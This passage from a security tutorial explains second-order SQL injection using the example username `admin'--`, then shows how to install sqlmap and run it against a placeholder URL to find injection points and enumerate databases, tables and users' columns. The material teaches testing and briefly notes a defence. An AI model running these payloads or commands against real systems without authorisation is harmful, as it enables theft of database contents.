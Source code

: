 **Example scenario:**
- An attacker registers a user with the username: `admin'--`
- The application stores this username in the database without proper sanitization
- Later, when an admin views the list of users, the application constructs a query like:

```sql
SELECT * FROM users WHERE username = 'admin'--'
```

This query now retrieves the admin user's information, potentially exposing sensitive data.

To prevent second-order SQL injection, it's crucial to sanitize inputs both when storing data and when using it in subsequent queries.

## Mastering sqlmap for Automated SQL Injection Testing

sqlmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws. Let's explore how to use this powerful tool effectively.

### 4.1 Installing sqlmap

On most Unix-based systems, you can install sqlmap using pip:

```text
pip install sqlmap
```

Alternatively, you can clone the GitHub repository:

```text
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

### 4.2 Basic sqlmap Usage

The simplest way to use sqlmap is to provide a target URL:

```text
sqlmap -u "http://example.com/page.php?id=1"
```

sqlmap will automatically detect the injection point and attempt to exploit it.

### 4.3 Advanced sqlmap Techniques

#### a) Specifying the injection point:
Use an asterisk (*) to mark the injection point in the URL:

```text
sqlmap -u "http://example.com/page.php?id=1*"
```

#### b) Database enumeration:
Retrieve information about the database:

```text
sqlmap -u "http://example.com/page.php?id=1" --dbs
sqlmap -u "http://example.com/page.php?id=1" --tables
sqlmap -u "http://example.com/page.php?id=1" --columns -T users
```
